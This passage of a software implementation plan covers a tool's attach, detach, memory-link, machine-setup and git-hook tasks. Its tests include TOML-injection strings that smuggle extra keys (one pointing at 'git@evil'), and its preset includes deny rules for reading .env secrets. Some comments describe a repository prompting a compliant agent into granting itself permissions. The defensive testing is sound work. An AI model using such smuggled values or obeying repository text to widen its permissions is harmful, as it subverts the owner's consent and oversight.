rules to every collaborator. Call the pure functions — document string in, document string out,
no manifest — and keep the ledger. This is DP4, and it is the one place where refusing an
existing mechanism is right.

*Does not give every entry the same id.* `owned_ids` returns `dict[str, str]`, so one shared
`keelline:overlay` id yields exactly one provenance row however many entries there are, and the
same id under two events keeps only the last. Ids are `keelline:overlay-<event>-<n>`, one per
entry.

*Does not pretend the two halves are symmetric.* A `permissions.allow` string cannot carry a
marker: `mark()` appends to a *command*, and `unmarked()` walks `groups → hooks → command`. So
hook entries have two witnesses — the in-band marker and the ledger — and allow rules have one.
State that in the module docstring rather than letting DP4's sentence imply otherwise.

*Does build one TOML serialiser.* `project.toml` here and the machine file in Task 12 are two
hand-rolled writers otherwise, in two waves, with no edge between them and no escaping rule —
and this one serialises a **remote URL**, which the Global Constraints list among
repository-authored bytes. A URL carrying a quote and a newline writes extra keys into a
capability record. `src/keelline/tomlout.py` is a leaf module with one function and one rule:
every string is emitted as a basic TOML string with `"`, `\`, and the control characters
escaped, and a value that cannot be represented raises rather than being mangled.

- [ ] **Step 1: Write the failing test**

```python
# tests/test_tomlout.py
from __future__ import annotations

import tomllib

import pytest

from keelline.errors import Refusal
from keelline.tomlout import dumps


def test_a_value_with_a_quote_and_a_newline_round_trips() -> None:
    # This module exists because the value it was written for is a git remote URL — repository-
    # authored bytes, by the Global Constraints' own list. Unescaped, a crafted URL closes its
    # own string and writes further keys into a record that decides what `attach` trusts.
    hostile = 'git@h:o/p.git"\nremote = "git@evil:o/p.git'
    parsed = tomllib.loads(dumps({"project": {"remote": hostile}}))
    assert parsed["project"] == {"remote": hostile}


def test_every_scalar_type_the_callers_use_round_trips() -> None:
    tables = {"project": {"remote": "u", "first_attach": "2026-09-17"},
              "machine": {"cli_on_path": True, "plugins": ["a", "b"]}}
    assert tomllib.loads(dumps(tables)) == tables


def test_an_unrepresentable_value_refuses_rather_than_being_mangled() -> None:
    # Silently dropping or str()-ing an unexpected type is how a capability record acquires a
    # value nobody wrote. There are two callers and both know their own types.
    with pytest.raises(Refusal):
        dumps({"project": {"when": object()}})
```

```python
# tests/attach/test_write.py
def test_a_mismatched_remote_refuses_and_writes_nothing(tmp_path: Path) -> None:
    # §6.3: "on a mismatch it refuses unless --trust-remote is given interactively". The
    # assertion that matters is the second half: snapshot every file under the root before,
    # expect `Refusal`, and compare the snapshot after. Not one byte changed.
    ...

def test_an_unconfirmed_attach_that_would_widen_a_permission_refuses(tmp_path: Path) -> None:
    # DP3, and the finding that produced it. The Global Constraints say `attach` writes
    # `settings.local.json` "only after a printed diff and an explicit confirmation", and an
    # earlier revision implemented that sentence with nothing at all: the only mechanism was a
    # Markdown step telling a model to run `--check` first. A repository that says "setup
    # requires `keelline attach --store <path it names>`" gets a compliant agent to grant it
    # tool permissions, and no human sees the diff. Assert `Refusal`, and assert the settings
    # file does not exist afterwards.
    ...

def test_an_attach_that_widens_nothing_needs_no_confirmation(tmp_path: Path) -> None:
    # The gate is on the capability, not on the command. An overlay with no allow rules and no
    # hooks — the state of a freshly created one — must still link memory without a flag, or
    # the flag becomes something people pass reflexively.
    ...

def test_confirmed_merges_the_rules_and_records_each_entry_under_its_own_id(tmp_path: Path) -> None:
    # `owned_ids` is keyed by id, so one shared id for N entries yields one provenance row and
    # the same id under two events silently keeps the last. Assert `owned_ids(document)` has
    # one entry per merged hook.
    ...

def test_a_group_mixing_a_marked_entry_with_a_foreign_one_is_split_not_replaced(tmp_path: Path) -> None:
    # Inherited from `scaffold.apply_entries` rather than re-implemented, and asserted here
    # because this is the lane whose mistake would delete a developer's own hook.
    ...

def test_a_first_attach_records_the_remote_and_the_date(tmp_path: Path) -> None:
    # §6.2: projects/<name>/project.toml holds "bound remote URL(s), first-attach date".
    ...

def test_the_merged_rules_are_recorded_where_they_can_be_removed_again(tmp_path: Path) -> None:
    # DP4: the ledger lives under .keelline/local/, because the committed manifest would
    # publish a digest of the owner's personal allow rules to collaborators.
    ...

def test_attach_writes_the_ignore_region_that_keeps_the_ledger_untracked(tmp_path: Path) -> None:
    # The repository has no `.keelline` line today and the lane that would ship one
    # (templates/project/) is out of scope, so an earlier revision's confidentiality argument
    # rested on a file that does not exist. Assert the region exists after attach, and assert
    # `git check-ignore -q .keelline/local/attach.json` succeeds — not that nothing is tracked,
    # which passes on a fixture that has committed nothing.
    ...

def test_attach_refuses_when_the_ignore_region_cannot_be_written(tmp_path: Path) -> None:
    # The other half: if the ledger cannot be made untracked, writing it is a leak, and the
    # right answer is to refuse rather than to warn.
    ...

def test_a_second_attach_adds_nothing_twice(tmp_path: Path) -> None:
    # §6.3: "idempotent and reversible by detach". A permission list that grows by one copy of
    # every rule per attach is the shape this catches.
    ...

def test_codex_rules_land_under_the_directory_codex_reads(tmp_path: Path) -> None:
    # §6.3: "places Codex rules under .codex/rules/". Kept separate from the Claude settings
    # merge because the two harnesses fail differently and a shared path would hide which.
    ...

def test_a_rule_the_overlay_never_granted_is_left_alone(tmp_path: Path) -> None:
    # §12: `doctor` lists every rule with provenance "so one no overlay granted is visible".
    # attach's own contribution to that is narrower and stricter: it does not touch one.
    ...
```

- [ ] **Step 2: Run the tests to verify they fail**

Run: `uv run pytest tests/attach/test_write.py tests/test_tomlout.py -q`
Expected: FAIL — `keelline.tomlout` does not exist and `attach` is not exported.

- [ ] **Step 3: Implement**

The order inside `attach` is the order the refusals have to happen in: read the binding (which
already refuses a store outside the machine-recorded overlay), compute the diff, **refuse when
`diff.added_allow or diff.added_hooks` and not `confirmed`**, refuse a `mismatch` without
`trust_remote`, then write — the `.gitignore` region first, so the ledger is never written to a
tracked path even for an instant.

The ignore region is one `scaffold.upsert` with `Style.HASH` and the marker name
`keelline:ignore`, carrying `.keelline/local/` and `.keelline/assessment.json` (§7.1 lists
both). Everything outside the region is untouched, which is the whole point of a managed region
and the reason this does not need C2's manifest.

Writes go through `fsops.write_within(root, …)` for everything inside the project, and through
`fsops.write_within(overlay, …)` for `projects/<name>/project.toml` — the overlay root is a
root, so there is no carve-out to take anywhere in this task.

One more line §6.3 asks for and Task 6 half-covers: `attach` "runs `pre-commit install` in the
overlay if it is missing". Task 6 runs it at `overlay init`, which is the first attach's happy
path — but a second machine clones an overlay initialised elsewhere and never runs `init`
again. So `attach` checks and runs it too, through the same `Runner` seam, and reports it as a
note. Doing it twice is free; not doing it at all leaves gitleaks unarmed on exactly the
machine that thinks it is set up.

- [ ] **Step 4: Run the tests, then commit**

```bash
uv run pytest tests/attach tests/test_tomlout.py -q && uv run pytest -q && uv run mypy
git add src/keelline/attach src/keelline/tomlout.py tests/attach/test_write.py tests/test_tomlout.py
git commit -m "feat(attach): merge the overlay's rules under the confirmation gate, and keep the ledger untracked"
```

- [ ] **Step 5: Declare the confirmation mutation and amend**

```toml
[[mutation]]
name = "attach widens a permission without a confirmation"
file = "src/keelline/attach/write.py"
before = '    if (diff.added_allow or diff.added_hooks) and not confirmed:'
after = '    if False:'
reddens = [
  "tests/attach/test_write.py::test_an_unconfirmed_attach_that_would_widen_a_permission_refuses",
]
```

Run: `uv run python scripts/mutation_oracle.py attach` — expected: caught. This is the entry
the Global Constraints demand by name: "a refusal something downstream reads as permission".
Then `git commit --amend --no-edit`.

---

### Task 10: the memory links, in the checkout and in every worktree

**Files:**
- Modify: `src/keelline/memory/worktree.py`, `src/keelline/memory/api.py`,
  `src/keelline/attach/write.py`
- Test: `tests/memory/test_worktree.py` (extend), `tests/attach/test_links.py`

**Interfaces:**
- Consumes: `keelline.memory.api.{link, linked_names, main_checkout, resolve, Links,
  PartialLink}`.
- Produces: `keelline.memory.worktree.attach_main(root, store_path, config, *, home) -> Links`,
  exported through `memory.api` **together with `harness_memory_path`**, which that surface
  does not carry today and which this lane and `doctor` both need by name.

**Read this before writing a line of it.** `worktree.link` is documented as "a no-op for the
main checkout itself: it already holds the real store, not a link to it". That is true in
`local-only` and `in-repo` mode and **false in overlay mode**, where §6.2's layout puts the real
store in the overlay and the checkout holds a link tree. So the main checkout needs its own
entry point — and it must live **in `worktree.py`, beside `link`**, not in `attach`, because the
two share `_link`, `_unlink` and, above all, the `trust.may_inject` gate on the harness link.
That gate is forty lines of hard-won reasoning about a channel Keelline does not control; a
second copy of it in the attach area is the most expensive duplication this plan could make.

**The ordering inside `attach_main`, which is the part that is not obvious.** It takes a
`store_path`, not a resolved `Store`, because there is nothing to resolve yet: in overlay mode
`resolve()` reads the link tree, and the link tree is what this function creates. So — create
one link per `config.memory.groups` under `contained(root, config.paths.memory)`, each pointing
at the matching directory under `permitted_roots(overlay, project)`; create the index link;
*then* call `resolve(root, config)`, which now succeeds, and apply the harness link through the
same `trust.may_inject(store, config, repository_data=in_repository(store, store.path))` call
`link` makes. Return `Links(created, revoked)` exactly as `link` does.

- [ ] **Step 1: Write the failing test**

```python
# tests/memory/test_worktree.py  (append)
def test_the_main_checkout_gets_the_link_tree_in_overlay_mode(tmp_path: Path) -> None:
    # The case `link`'s own docstring excludes. Build an overlay with `common/memory` and
    # `projects/<name>/memory/{project-stable,project-volatile,specs}`, a project whose
    # keelline.toml sets `memory.mode = "overlay"`, and call attach_main with the project's
    # store path. Assert `paths.memory` then holds one symlink per configured group, each
    # resolving under `permitted_roots`, plus the index link — and that `resolve()` succeeds
    # afterwards, which it cannot before, because the tree is what it reads.
    ...

def test_the_harness_link_is_gated_by_the_same_predicate_as_in_a_worktree(tmp_path: Path) -> None:
    # The gate is `trust.may_inject(store, config, repository_data=in_repository(store,
    # store.path))`. Asked any other way it answers the wrong question — the worktree
    # docstring records a clone that got the harness link created for it on no trust record at
    # all, after which the harness's own native reader injected repository bytes with no
    # delimiter and no nonce. Assert: in-repo mode with no trust record → no harness link;
    # after `memory trust` → link created.
    ...

def test_a_group_name_that_escapes_the_tree_raises_rather_than_skipping(tmp_path: Path) -> None:
    # `memory.groups` is an ordinary keelline.toml list and reaches no guard of its own (§7.4).
    # Skipping one escaping name leaves the next free to try the same thing, which is why
    # `link` raises `PathEscape` rather than continuing — and `attach_main` must match it.
    ...
```

```python
# tests/attach/test_links.py
def test_every_existing_worktree_is_linked(tmp_path: Path) -> None:
    # §6.3: "links memory into every existing worktree". A worktree created before the attach
    # is the common case — this repository has four of them. Enumerate with
    # `git worktree list --porcelain` through `memory.store`'s scrubbed helper, and skip the
    # one `main_checkout(root)` names, which `attach_main` already handled.
    ...

def test_a_partial_link_failure_reports_what_it_made(tmp_path: Path) -> None:
    # `PartialLink` carries `.created` precisely so a half-built tree is repairable rather than
    # mysterious. attach must surface it, not swallow it into a generic failure.
    ...
```

- [ ] **Step 2: Run the tests to verify they fail**

Run: `uv run pytest tests/memory/test_worktree.py tests/attach/test_links.py -q`
Expected: FAIL — `attach_main` does not exist, and `harness_memory_path` is not importable from
`keelline.memory.api`.

- [ ] **Step 3: Implement**

Add `attach_main` to `worktree.py` as described above, and both it and `harness_memory_path` to
`memory.api`'s imports and `__all__` — that file's own docstring asks for the commit to say
which lane and why, so the commit message names `attach` and `doctor`.

`attach.write` calls `attach_main` first, then `link` for each worktree that is not the main
checkout, collects the `Links` and lets a `PartialLink` propagate with its `.created` intact.

**The harness link's fallback.** §6.3 gives `~/.claude/projects/<slug>/memory` a fallback:
`autoMemoryDirectory` in `settings.local.json`, "because a settings-file value is subject to
workspace trust and a link is not". The symlink is preferred; the fallback is taken only when
the link cannot be created — a filesystem that refuses symlinks, or an existing real directory
at that path. When it is taken, the key goes into the same `.keelline/local/attach.json` ledger
as everything else, so `detach` removes it and `doctor` can see it. A fallback nothing records
is a setting that outlives its reason.

- [ ] **Step 4: Run the tests and commit**

```bash
uv run pytest tests/memory tests/attach -q && uv run pytest -q
git add src/keelline/memory src/keelline/attach tests/memory/test_worktree.py tests/attach/test_links.py
git commit -m "feat(memory,attach): link the store into the owning checkout and every worktree"
```

---

### Task 11: `detach`, and the wave's documents

**Files:**
- Modify: `src/keelline/attach/write.py`, `src/keelline/attach/commands.py`, `README.md`,
  `docs/cli.md`, `skills/attach/SKILL.md`, `tests/skills/test_skills.py`
- Create: `changelog.d/attach.feature.md`
- Test: `tests/attach/test_detach.py`

**Interfaces:**
- Consumes: `ledger(root)` (Task 9), `Links` (Task 10), `keelline.scaffold.{drop, owned_ids}`.
- Produces: `detach(root) -> Detached`.

- [ ] **Step 1: Write the failing test**

```python
# tests/attach/test_detach.py
def test_detach_removes_exactly_what_attach_added(tmp_path: Path) -> None:
    # The round trip is the assertion: snapshot every file under the root, attach with
    # `confirmed=True`, detach, and compare against the snapshot. A detach that removes a rule
    # the owner wrote by hand is worse than one that removes none.
    ...

def test_detach_leaves_a_rule_the_ledger_does_not_claim(tmp_path: Path) -> None:
    # Write an allow rule into settings.local.json by hand before attaching, attach, detach,
    # and assert that rule survives. The ledger is the authority on what was ours; content
    # heuristics are exactly what it exists to replace.
    ...

def test_detach_without_a_ledger_says_so_and_changes_nothing(tmp_path: Path) -> None:
    # A repository attached by an older version, or by hand. Guessing which rules were ours
    # from their content is the heuristic this ledger exists to avoid, so the answer is a
    # `Failure` naming the missing ledger, not a best effort.
    ...

def test_detach_withdraws_the_harness_link(tmp_path: Path) -> None:
    # The link that leaves Keelline's gate is the one that must not outlive the binding — the
    # same asymmetry `worktree._unlink` already enforces in the other direction.
    ...

def test_detach_leaves_the_binding_record_in_place(tmp_path: Path) -> None:
    # `projects/<name>/project.toml` is a record of the owner's consent, not a piece of local
    # state. Re-attaching later must not re-ask for it, and a detach that deleted it would
    # turn every re-attach into a first attach.
    ...
```

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/attach/test_detach.py -q`
Expected: FAIL — `detach` is not exported.

- [ ] **Step 3: Implement and document**

`detach` reads the ledger, removes exactly the recorded allow rules, drops the marked hook
entries with `scaffold.drop`, removes the Codex rules files it wrote, withdraws the link tree
and the harness link, removes the `keelline:ignore` region, and deletes the ledger. It does
**not** touch `projects/<name>/project.toml`.

Add the README rows for `keelline attach` and `keelline detach`, and the matching `docs/cli.md`
sections naming what each reads, what each writes, and the exit codes: 0 attached or clean, 1
mismatch under `--check`, 2 refusal — a store outside the recorded overlay, a mismatch without
`--trust-remote`, or a widening without `--yes`.

- [ ] **Step 4: Retire the skill's disclaimer, and make the skill match the gate**

In `skills/attach/SKILL.md`, delete the paragraph beginning "Written against the CLI contract;
the command ships with the `attach` lane and is not available yet." **Delete it, do not append
a correction below it.**

Then rewrite step 2 so the skill describes the gate rather than substituting for it: the
command refuses a widening without `--yes`, and the skill's job is to relay the diff and obtain
a human's answer before passing it. A skill that reads as though its own ordering were the
control teaches the next reader to build the next control the same way.

Remove `"attach"` and `"detach"` from `NOT_YET_SHIPPED` in `tests/skills/test_skills.py`.

- [ ] **Step 5: Run the full gate and commit**

```bash
git add src/keelline/attach tests/attach tests/skills/test_skills.py README.md docs/cli.md skills/attach/SKILL.md changelog.d/attach.feature.md
git commit -m "feat(attach): detach, and make the skill describe the gate rather than be it"
```

**Wave C exit check.** The full gate plus one real attach against the probe overlay from Wave
B's exit check, in a scratch clone — never against this repository, whose memory store is the
local-only stopgap and whose `keelline.toml` exists only to make the memory lane runnable.
Check both refusals by hand: `--store` pointed one directory sideways, and an attach without
`--yes` against an overlay that carries one allow rule.

---
## Wave D — Tasks 12-14: the machine layer (`setup`)

One implementer, one review round. `setup` is the only writer of the machine configuration
file, and the only thing in this plan that writes outside a repository. Its two readers already
exist and neither may change: `config.loader._personal` reads `[personal]` and
`memory.store.overlay_root` reads `[overlay] root`, both with `interactive=False`, and both
have a documented reason for resolving `~/.config/keelline/config.toml` and nothing else in a
non-interactive session. **Write the file those two already read** (DP5); a task that finds
itself wanting to change either reader stops and reports.

### Task 12: the preset's machine sections, and the writer

**Files:**
- Modify: `src/keelline/presets/recommended.toml`
- Create: `src/keelline/setup/__init__.py`, `src/keelline/setup/machine.py`,
  `src/keelline/setup/api.py`
- Test: `tests/setup/__init__.py`, `tests/setup/test_machine.py`

**Interfaces:**
- Consumes: `keelline.presets.load_preset`, `keelline.config.machine.machine_config_path`,
  `keelline.tomlout.dumps` (Task 9), `keelline.overlay.api.Runner`.
- Produces: `write_machine(path, *, personal, overlay_root, machine) -> Written`;
  `read_machine(path) -> dict`; `USER_SETTINGS = ".claude/settings.json"`, the one
  machine-scope settings file this plan writes, relative to `home`; the preset's `[plugins]`
  and `[deny]` tables.

The preset file opens with a comment that says in as many words: "Owned by the foundation
lane: `[budgets]`, `[native_caps]`, `[defaults.*]`; by the notes lane: `[rules]`. **The setup
lane adds every other section.**" This task is that sentence coming due, and it is the third
and last of this plan's deliberate crossings into an already-merged lane's file.

`USER_SETTINGS` is named here, as a module constant, rather than spelled inline: Task 13 writes
it, Task 15's `hook-entries` check enumerates "every settings file" and must include it, and a
set that is load-bearing in two places is a set that needs one definition. Codex has no
user-scope permissions file to write — §5.4's "no `userConfig` in Codex" is one of the clauses
§10 marks *unmeasured*, so this plan writes nothing there and says why rather than guessing a
path.

- [ ] **Step 1: Write the failing test**

```python
# tests/setup/test_machine.py
from __future__ import annotations

import tomllib
from pathlib import Path

from keelline.config.loader import load
from keelline.memory.api import overlay_root
from keelline.presets import load_preset
from keelline.setup.api import read_machine, write_machine


def test_the_file_written_is_the_file_both_readers_already_read(tmp_path: Path) -> None:
    # The whole point of DP5, asserted from the readers' side rather than the writer's: a
    # schema this writer invented would round-trip through its own reader and fail in a hook.
    path = tmp_path / "config.toml"
    write_machine(path, personal={"reply_language": "ru"}, overlay_root=tmp_path / "ov", machine={})
    assert overlay_root(path) == tmp_path / "ov"
    project = _initialised_project(tmp_path)
    assert load(project, machine=path).personal.reply_language == "ru"


def test_writing_without_an_overlay_leaves_no_overlay_table(tmp_path: Path) -> None:
    # `overlay_root` answering None must keep meaning "not recorded, and nothing else" — its
    # docstring spells out that an empty or broken table used to collapse six states into one
    # and produced wrong advice for three of them.
    path = tmp_path / "config.toml"
    write_machine(path, personal={}, overlay_root=None, machine={})
    assert overlay_root(path) is None
    assert "overlay" not in tomllib.loads(path.read_text(encoding="utf-8"))


def test_a_rewrite_preserves_a_value_this_run_did_not_set(tmp_path: Path) -> None:
    # A second `setup` on a machine that already has one is the common case. Losing the overlay
    # root because this run only set languages is the shape this catches.
    path = tmp_path / "config.toml"
    write_machine(path, personal={}, overlay_root=tmp_path / "ov", machine={})
    write_machine(path, personal={"reply_language": "ru"}, overlay_root=None, machine={})
    assert overlay_root(path) == tmp_path / "ov"
    assert read_machine(path)["personal"]["reply_language"] == "ru"


def test_a_hostile_value_cannot_write_a_second_key(tmp_path: Path) -> None:
    # The machine file records the overlay root — the anchor of the whole trust model. It is a
    # path the owner typed rather than repository bytes, but it travels through the same
    # serialiser as `project.toml`'s remote URL, and one escaping rule for both is the reason
    # `tomlout` exists rather than two format strings.
    path = tmp_path / "config.toml"
    write_machine(path, personal={"reply_language": 'ru"\nartifact_language = "zz'},
                  overlay_root=None, machine={})
    assert read_machine(path)["personal"]["artifact_language"] != "zz"


def test_the_preset_names_the_plugins_and_the_deny_rules() -> None:
    # §5.6. superpowers is named because the design's own non-goal says so: "this is not a
    # replacement for superpowers. The recommended preset installs it."
    preset = load_preset("recommended")
    assert any("superpowers" in name for name in preset["plugins"]["install"])
    assert any(".env" in rule for rule in preset["deny"]["global"])
```

The recursive `allow`-anywhere assertion over the preset lives in Task 5's
`test_the_preset_grants_nothing_anywhere_in_it`, and this task's new `[plugins]` and `[deny]`
tables fall under it automatically — which is the reason that test was written recursively
rather than against a named table.

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/setup -q`
Expected: FAIL at import — `keelline.setup` does not exist; the preset test fails on
`KeyError: 'plugins'`.

- [ ] **Step 3: Implement**

Append to `presets/recommended.toml`, below `[rules]`, with a comment saying this section is
the setup lane's:

```toml
[plugins]
# Installed by `setup --preset recommended`, through each harness's own plugin command.
# Third-party skills are listed as recommendations in the README, never vendored (§5.6).
#
# Unpinned, and that is a gap worth naming rather than hiding: whatever these selectors resolve
# to at install time runs in every session, and a third-party plugin can ship its own hooks and
# allow rules — a wider grant than the allow rule §3 forbids Keelline's own author from
# shipping. The owner runs `setup` deliberately and can decline, and the deny-only invariant
# over `templates/` has a test while this has none. A pin belongs here when the marketplaces
# expose a version selector to pin to.
install = ["superpowers@obra", "context7@upstash"]

[deny]
# Machine-level deny rules, written into the user-scope settings. Deny only, always: the
# plugin author may never ship an allow rule (§3), and a preset is a template by another name.
global = ["Read(.env*)", "Read(**/.env*)", "Read(**/.env)"]
```

Fill `install` with the exact selectors the owner uses; if one is unknown, leave the two above
and say so in the commit rather than guessing a marketplace name that fails at install time.

`setup/machine.py` reads the existing file when present, merges the tables this run sets over
it, and writes through `tomlout.dumps` and `fsops.write_atomically` — the one place in this
plan where the bare-`Path` writer is right, because the machine configuration directory is not
inside any root this process owns and there is nothing to be relative to. Say that in the
call's own comment, and say that the segments are fixed strings this module wrote, not
payload-controlled like the sink's were.

- [ ] **Step 4: Run the tests, then commit**

```bash
uv run pytest tests/setup tests/config tests/memory tests/overlay -q && uv run pytest -q
git add src/keelline/presets/recommended.toml src/keelline/setup tests/setup
git commit -m "feat(setup): the preset's machine sections and the writer both readers already read"
```

---

### Task 13: `setup --preset`

**Files:**
- Create: `src/keelline/setup/run.py`, `src/keelline/setup/commands.py`
- Modify: `src/keelline/setup/api.py`, `README.md`, `docs/cli.md`
- Test: `tests/setup/test_setup.py`

**Interfaces:**
- Consumes: `write_machine`, `USER_SETTINGS` (Task 12),
  `keelline.overlay.api.{Runner, subprocess_runner, create, init_instance}`.
- Produces: `setup(preset, *, home, machine, runner, yes, overlay, project_root) -> SetupReport`
  with fields `machine_written`, `plugins_installed`, `deny_written`, `cli_on_path`, `overlay`,
  `notes`; the `keelline setup` command with `--preset`, `--yes`, `--home`, `--machine`,
  `--overlay`, `--root`, `--git-hooks` and `--uninstall`.
- `project_root` is the CLI's `--root` (default `.`) and exists for one refusal: an `--overlay`
  that any checkout of that repository could reach is refused above the first write. It is
  keyword-required, so no caller can silently take the process's working directory.
- `--git-hooks` is the command's *other* mode, added by Task 14 and named here because a later
  lane reading this block has to know it exists: it installs the commit-message hook into
  `--root`'s own hooks directory, takes `--uninstall`, refuses a run that also passes
  `--preset`, and ignores `--home` and `--machine` entirely.

This is the walkthrough's step 3 and step 4 (§4). `--home` and `--machine` are not test
affordances bolted on: the Global Constraints forbid a test from touching the developer's real
`~/.claude`, and a command whose only mode writes to the real home cannot be tested at all.

- [ ] **Step 1: Write the failing test**

```python
# tests/setup/test_setup.py
def test_setup_writes_the_machine_file_and_the_deny_rules(tmp_path: Path) -> None:
    # Two machine-level writes, both enumerated by D14. Assert the machine file round-trips
    # through `read_machine`, and that `<home>/.claude/settings.json` — `setup.api.USER_SETTINGS`,
    # the one machine-scope settings file this plan writes — carries every rule from the
    # preset's `[deny] global` and no `allow` key at all.
    ...

def test_an_existing_user_settings_file_keeps_the_owners_own_rules(tmp_path: Path) -> None:
    # The owner's `~/.claude/settings.json` is theirs and predates Keelline on most machines.
    # Merge, never replace, and record nothing about entries this run did not add.
    ...

def test_every_plugin_install_is_one_recorded_argv(tmp_path: Path) -> None:
    # The Runner seam again. What can be wrong here is the selector, and only an argv assertion
    # can see it — Findings → S6 measured that an owner-suffixed selector installs, which is
    # exactly the kind of string a mocked subprocess would have hidden.
    ...

def test_a_harness_that_is_not_installed_is_a_note_not_a_failure(tmp_path: Path) -> None:
    # `agents = ["claude", "codex"]` is the default and most machines have one of the two.
    # Refusing to set up a machine because Codex is absent would be absurd.
    ...

def test_the_overlay_offer_is_never_taken_without_being_asked(tmp_path: Path) -> None:
    # §6.1: `overlay create` runs `gh repo create` "after explicit confirmation". A default
    # that creates a GitHub repository is the one default this command may not have — and
    # `--yes`, which takes the detected defaults for everything else, must not take this one.
    report = setup("recommended", home=..., machine=..., runner=runner, yes=True, overlay=None)
    assert report.overlay is None
    assert not any(argv[:2] == ["gh", "repo"] for argv in runner.calls)


def test_pointing_at_an_existing_overlay_records_its_root_and_creates_nothing(tmp_path: Path) -> None:
    # The second of the three answers §8.1's question 2 offers, and the answer a second machine
    # gives: the overlay already exists and is cloned, and `setup` only records it.
    ...

def test_the_recorded_overlay_root_is_what_attach_then_refuses_outside_of(tmp_path: Path) -> None:
    # The C→D seam, asserted rather than assumed — and asserted through the refusal, which is
    # the half that matters: run `setup --overlay <path>`, then call `attach.read_binding` with
    # a `--store` under a different directory and expect `Refusal`. DP3's anchor is only real
    # if the value `setup` writes is the value `attach` reads.
    ...

def test_a_second_run_is_idempotent(tmp_path: Path) -> None:
    # Two runs, one report each; the second installs no plugin twice and leaves the deny list
    # the same length.
    ...
```

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/setup/test_setup.py -q`
Expected: FAIL — `setup` is not exported from `keelline.setup.api`.

- [ ] **Step 3: Implement**

`setup(preset, …)` does five things, in this order, each reported and each independently
skippable:

1. `write_machine` with `[personal]` from the preset's `[defaults.personal]` overlaid by
   anything the caller passed, and `[machine]` recording the Keelline version and the date.
2. The preset's `[deny] global` rules into `<home>/<USER_SETTINGS>`. Deny only. Merge, never
   replace.
3. The preset's `[plugins] install`, one `Runner` call per plugin per configured agent. A
   missing harness binary is a note; a non-zero exit is a note naming the selector.
4. The CLI on `PATH`: report whether `keelline` resolves, and when it does not, name
   `uv tool install git+https://github.com/Nezhinskiy/keelline@<tag>` — the positional form,
   because `uv tool install` has no `--from` (D2). Do not install it silently.
5. The overlay, only when the caller named an answer: `overlay="create:<owner>/<name>"` calls
   `overlay.create` then `overlay.init_instance`; `overlay="<path>"` records an existing root;
   absent means skip. Then re-write the machine file with `[overlay] root`.

Claude Code's `userConfig` mirror is step 1's second half: write the three personal values into
`<home>/<USER_SETTINGS>`' `pluginConfigs` for `keelline`. Codex has no `userConfig` (§5.4, and
§10 marks that clause unmeasured), so there is nothing to mirror there and the report says so
rather than trying.

- [ ] **Step 4: Add the README row, document, and commit**

Add the `keelline setup --preset recommended` row to README's `## Commands` block and the
matching `docs/cli.md` section.

```bash
uv run pytest tests/setup -q && uv run pytest -q && uv run mypy
git add src/keelline/setup tests/setup/test_setup.py README.md docs/cli.md
git commit -m "feat(setup): write the machine layer, install the preset, and offer the overlay"
```

---

### Task 14: `setup --git-hooks`, and the wave's documents

**Files:**
- Modify: `src/keelline/setup/commands.py`, `README.md`, `docs/cli.md`,
  `skills/setup/SKILL.md`, `tests/skills/test_skills.py`
- Create: `changelog.d/setup.feature.md`
- Test: `tests/setup/test_git_hooks.py`

**Interfaces:**
- Consumes: `keelline.guards.api.{install, uninstall, Installed, Removed, HOOK_NAME}` — the
  guards lane shipped the installer for exactly this caller, and its `api.py` docstring names
  `setup` and these five names.
- Produces: `keelline setup --git-hooks [--uninstall]`.

This task is small on purpose: the installer exists, the chaining behaviour is already tested
in `tests/guards/`, and what is missing is the command that calls it and the report it prints.
Folding it into Task 13 would have hidden a different concern — a per-repository write — inside
a command that otherwise only writes machine-level files.

- [ ] **Step 1: Write the failing test**

```python
# tests/setup/test_git_hooks.py
def test_the_hook_is_installed_into_the_repositorys_own_hooks_path(tmp_path: Path) -> None:
    # §7.2: "installs it per repository into `git rev-parse --git-path hooks` (never
    # `core.hooksPath`)". The parenthesis is the assertion: `core.hooksPath` is global state
    # this command has no business owning. Assert the file lands under `guards.hooks_dir(root)`
    # and that `git config --get core.hooksPath` is still unset afterwards.
    ...

def test_a_foreign_hook_is_kept_and_chained_to(tmp_path: Path) -> None:
    # §7.2, and the reason this is not a plain overwrite: a developer's own prepare-commit-msg
    # is theirs, and silently replacing it is data loss.
    ...

def test_uninstall_restores_the_foreign_hook(tmp_path: Path) -> None:
    # The round trip, byte for byte: the `.local` file goes back to its original name with its
    # original content and mode.
    ...

def test_the_report_names_what_it_moved(tmp_path: Path) -> None:
    # "prints what it moved" is in the spec because a `.local` file nobody was told about is
    # indistinguishable from a lost one.
    ...

def test_the_two_modes_refuse_to_combine(tmp_path: Path) -> None:
    # One writes machine-level files and the other writes into one repository; an invocation
    # that did both would have two exit codes to report and one to return.
    ...
```

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/setup/test_git_hooks.py -q`
Expected: FAIL — `--git-hooks` is an unrecognised argument.

- [ ] **Step 3: Implement, document and retire the disclaimer**

Add the README row and the `docs/cli.md` section for `keelline setup --git-hooks`.

In `skills/setup/SKILL.md`, delete the "not available yet" paragraph outright — Task 7 already
narrowed it to `setup` alone, and this is what retires the rest. Remove `"setup"` from
`NOT_YET_SHIPPED` in `tests/skills/test_skills.py`.

- [ ] **Step 4: Run the full gate and commit**

```bash
git add src/keelline/setup tests/setup README.md docs/cli.md skills/setup/SKILL.md tests/skills/test_skills.py changelog.d/setup.feature.md
git commit -m "feat(setup): install the commit-message hook per repository, chaining to a foreign one"
```

**Wave D exit check.** The full gate, and a round trip into scratch paths that proves the C→D
seam without touching the developer's real configuration:

```bash
uv run keelline setup --preset recommended --yes \
  --machine /tmp/keelline-probe/config.toml --home /tmp/keelline-probe/home
```

Expected: exit 0, a `[personal]` table and no `[overlay]` table in the written file, the deny
rules in `/tmp/keelline-probe/home/.claude/settings.json`, and every plugin install reported —
installed or skipped with a reason.

---

## Wave E — Tasks 15-17: `doctor`, and the closure

One implementer, one review round. `doctor` is last rather than inside `hooks-core` where
§15.2 files it, and the wave graph says why: it reports on the overlay, the attach state and
the machine file, so shipping it in Wave A would have made a back-edge from the first wave into
the last three. What it costs is that `doctor` is the newest code at merge time; what it buys
is that it is the only code that can see all four packages at once.

### Task 15: the checks

**Files:**
- Create: `src/keelline/doctor/__init__.py`, `src/keelline/doctor/checks.py`,
  `src/keelline/doctor/api.py`
- Test: `tests/doctor/__init__.py`, `tests/doctor/test_checks.py`

**Interfaces:**
